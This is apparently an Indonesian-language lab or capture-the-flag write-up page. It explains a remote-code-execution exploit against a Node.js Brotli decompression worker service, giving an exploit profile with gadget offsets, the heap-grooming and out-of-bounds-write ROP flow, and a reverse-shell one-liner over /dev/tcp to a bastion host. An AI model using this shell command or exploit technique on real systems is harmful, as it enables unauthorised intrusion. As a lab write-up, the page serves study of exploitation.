

# Record Keeper (User) — Analisis

[← Overview](17-record-keeper-user.md) · [Index](index.md)

## 2.3 Kenapa lab ini cocok dengan profile publik

Notes mencatat service `:3000` adalah fixture "worker record transform" yang
sama dengan lab publik:

```text
Node.js v24.9.0
zlib.createBrotliDecompress({chunkSize: 0x330})
Buffer.allocUnsafeSlow(0x330)
satu Worker per koneksi
UV_THREADPOOL_SIZE=1
```

Empat properti itu membuat layout heap deterministik:

- `chunkSize 0x330` dan `allocUnsafeSlow(0x330)` menentukan ukuran alokasi
  yang bertabrakan dengan buffer decoder.
- Satu Worker per koneksi membuat urutan alokasi bisa diatur dengan koneksi
  "groom" dan "poison".
- `UV_THREADPOOL_SIZE=1` mengurangi variasi thread yang menangani decode.
- Binary Node non-PIE + glibc bookworm memberi offset stabil.

Profile exploit:

```text
node-24.9.0-worker-record-rce-bookworm-x86_64
node_binary_sha256 : 3dc61cdcc38781a678b31903d2f69ed16094206e2258df53a4eb2c0fe4f0a793
bss_payload        : 0x6e948a0
callback_gadget    : 0x1062840
execvp_plt         : 0xf3ed60
tcache_index       : 50
state_heap_minus_ring : -0x800ab70
```

## 2.4 Alur RCE

Exploit membuka dua koneksi:

1. **Groom connection** — membentuk heap layout dan menaruh data di ring
   buffer.
2. **Poison connection** — mengirim stream Brotli malformed yang memicu OOB
   write.

OOB write menimpa saved return address di stack Worker. Stack pivot
mengarahkan eksekusi ke ROP chain yang sudah disiapkan di ring buffer. ROP
chain memanggil `execvp("/bin/bash", ["-c", <RCE_CMD>])`. Command yang dipakai
di notes membuka reverse shell ke bastion:

```bash
id;exec 4<>/dev/tcp/10.10.20.10/4445;bash -i <&4 >&4 2>&4
```

Exploit juga mengirim token acak + output `id` ke callback sebagai bukti RCE.

### Evidence langkah ini



*Terminal evidence — `02-cve-2026-111497.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-cve-2026-111497.txt`](assets/record-keeper-user/02-cve-2026-111497.txt)
